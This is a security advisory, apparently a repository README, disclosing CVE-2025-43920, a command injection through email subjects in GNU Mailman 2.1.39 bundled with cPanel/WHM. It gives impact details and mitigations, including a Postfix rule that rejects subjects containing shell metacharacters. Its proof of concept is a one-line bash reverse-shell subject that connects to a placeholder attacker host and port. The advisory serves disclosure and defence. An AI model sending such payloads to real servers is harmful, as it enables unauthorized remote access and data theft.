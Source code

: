 # CVE-2025-43920: Command Injection via Email Subject in GNU Mailman 2.1.39 (cPanel/WHM Bundle)

**Disclosure Date:** April 2025  
**CVE ID:** [CVE-2025-43920](https://www.cve.org/CVERecord?id=CVE-2025-43920)  
**Severity:** Critical (CVSS 9.8: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
**Attack Type:** Remote  
**Affected Software:** GNU Mailman 2.1.39 (bundled with cPanel/WHM)  

## Overview
GNU Mailman 2.1.39, as bundled with cPanel and WHM, is vulnerable to a critical command injection flaw that allows unauthenticated attackers to execute arbitrary operating system commands via shell metacharacters in email subject lines. The vulnerability arises from inadequate sanitization in the `Mailman/Handlers/` logic, which processes email subjects without filtering dangerous characters.

It enables attackers to establish reverse shells, exfiltrate data, or fully compromise the server, posing a severe risk to affected systems.

## Vulnerability Details
- **Vulnerability Type:** Command Injection  
- **Vendor:** GNU Mailman ([https://www.gnu.org/software/mailman/](https://www.gnu.org/software/mailman/))  
- **Affected Versions:** Mailman 2.1.39; likely affects older 2.1.x versions (pending regression testing)  
- **Affected Components:**
  - `private.py` CGI script (entry point for email processing)
  - `archive.py` (archive handling)
  - `Mailman/Handlers/` (email subject parsing logic)
  - Potential exposure of `.mbox` files during processing
- **Root Cause:** Failure to sanitize shell metacharacters (e.g., `;`, `&`, `|`) in email subject lines, allowing execution in the server’s shell environment.
- **Status:** No official fix available. Mailman 2.1.x is end-of-life (EOL); migration to Mailman 3.x is strongly recommended.

## Proof of Concept
Send an email to a Mailman-managed list with the following subject line:
```bash
Subject: ;bash -i >& /dev/tcp/ATTACKERIP/4444 0>&1
```

**Prerequisites:**
- Attacker controls a mail server or client capable of sending to the target list.
- A listener (e.g., `netcat`) is set up on `ATTACKERIP:4444` to receive the reverse shell.

**Expected Outcome:** A reverse shell connection to the attacker’s server, granting command-line access to the Mailman host.

## Attack Vectors
- **Primary Vector:** Malicious email subject lines containing shell metacharacters sent to a Mailman-managed mailing list.
- **Exploitation Scenarios:**
  - Establish reverse shells for persistent access.
  - Execute commands to exfiltrate data, modify configurations, or install malware.
  - Chain with CVE-2025-43919 to retrieve sensitive files for targeted attacks.
- **Ease of Exploitation:** High, as any email sender can target public or misconfigured lists.

## Security Impact
- **Code Execution:** High (arbitrary OS command execution).
- **Privilege Escalation:** High (potential root access depending on Mailman’s runtime privileges).
- **Information Disclosure:** High (command output can reveal system data).
- **Denial of Service:** High (malicious commands can crash or overload the server).

## Mitigations
### Immediate Actions
- **Filter Email Subjects:** Configure the MTA (e.g., Postfix, Exim) to block shell metacharacters in subject lines:
  ```bash
  /etc/postfix/header_checks:
  /^Subject:.*[;&|]/ REJECT Suspicious characters in subject
  ```
- **Restrict Subscriptions:** Limit mailing list subscriptions to trusted users to reduce exposure.

### Long-Term Solutions
- **Upgrade to Mailman 3.x:** Migrate to [Mailman 3.x](https://www.list.org/), which implements robust input sanitization.
- **Disable Email Processing:** If not required, disable Mailman’s email processing functionality.
- **Harden Environment:** Run Mailman in a containerized environment with minimal privileges.
- **Historical Context:** CVE-2018-13796 was mitigated by patching email content parsing. As Mailman 2.1.x is EOL, upgrading is the only viable solution.

## Timeline
- **Q1 2025:** Vulnerability discovered during authorized Red Team assessment.
- **Q1 2025:** Reported to GNU Mailman and cPanel maintainers.
- **April 2025:** CVE assigned by MITRE.
- **April 2025:** Public disclosure via this repository.

## References
- [Mailman 2.1 Source Code](https://code.launchpad.net/~mailman-coders/mailman/2.1)
- [CVE-2025-43920 Record](https://www.cve.org/CVERecord?id=CVE-2025-43920)
- [Mailman Security Recommendations](https://wiki.list.org/DEV/Security)
  
## Acknowledgments

Firudin Davudzada and Aydan Musazada responsibly disclosed this vulnerability during a sanctioned penetration testing engagement.
Thanks to the MITRE CVE team for coordination.
